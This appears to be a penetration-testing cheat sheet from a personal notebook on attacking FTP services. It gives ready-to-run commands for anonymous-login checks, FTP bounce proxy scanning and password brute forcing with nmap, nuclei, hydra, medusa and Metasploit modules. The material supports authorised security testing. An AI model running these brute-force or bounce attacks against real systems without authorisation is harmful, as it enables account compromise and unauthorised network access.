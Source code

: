 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - ftp
  - nuclei
  - hydra
  - medusa
  - network-mapper
  - metasploit-framework
---
```

# FTP

## 01 - Anonymous Login

### 1.1 - Manual

Pass these credentials username: `anonymous` and password: `anonymous`

```
$ ftp <IP>
```

### 1.2 - Nuclei

```
$ nuclei -l ip_targets.txt -t ~/nuclei-templates -id ftp-anonymous-login
```

### 1.3 - Network Mapper

```
$ nmap -p 21 -Pn -n --script ftp-anon <IP>

$ nmap -p 21 -Pn -n --script ftp-anon -iL ip_targets.txt
```

### 1.4 - Metasploit

```
msf > use auxiliary/scanner/ftp/anonymous

msf auxiliary(scanner/ftp/anonymous) > options

Module options (auxiliary/scanner/ftp/anonymous):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    21                   yes       The target port (TCP)
   THREADS  1                    yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/ftp/anonymous) > set rhosts <IP>

msf auxiliary(scanner/ftp/anonymous) > set threads 4

msf auxiliary(scanner/ftp/anonymous) > run -j
```

## 02 -  FTP Bounce

### 2.1 - Network Mapper

Using a FTP server as a proxy server to scan the target

```
$ nmap -b <username>:<password>@<FTP_server_IP> <target_IP>

$ nmap -v -p 21,22,80,443,445 -Pn -b <username>:<password>@<FTP_server_IP> <target_IP>/<CIDR>
```

### 2.2 - Metasploit

```
msf > use auxiliary/scanner/portscan/ftpbounce

msf auxiliary(scanner/portscan/ftpbounce) > options

msf auxiliary(scanner/portscan/ftpbounce) > run rhosts=<IP>
```

## 03 - Brute Force

### 3.1 - Hydra

```
$ hydra -V -l <username> -P passwords.lst ftp://<target_IP>
```

### 3.2 - Medusa

```
$ medusa -h <target_IP> -u <username> -P passwords.lst -M ftp
```

### 3.3 - Network Mapper

```
$ nmap -p 21 -Pn --script ftp-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

### 3.4 - Metasploit

```
msf > use auxiliary/scanner/ftp/ftp_login

msf auxiliary(scanner/ftp/ftp_login) > options

Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false            no        Record anonymous/guest logins to the database
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             21               yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf auxiliary(scanner/ftp/ftp_login) > set username <username>

msf auxiliary(scanner/ftp/ftp_login) > set pass_file /path/to/passwords.lst

msf auxiliary(scanner/ftp/ftp_login) > set rhosts <target_IP>

msf auxiliary(scanner/ftp/ftp_login) > run -j
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/FTP]]

### Hacktricks

- [Hacktricks: Pentesting FTP Bounce Attack](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ftp/ftp-bounce-attack.html)

- [Hacktricks: Pentesting FTP Download 2OFTP File](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file.html)

### Hacking Articles

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)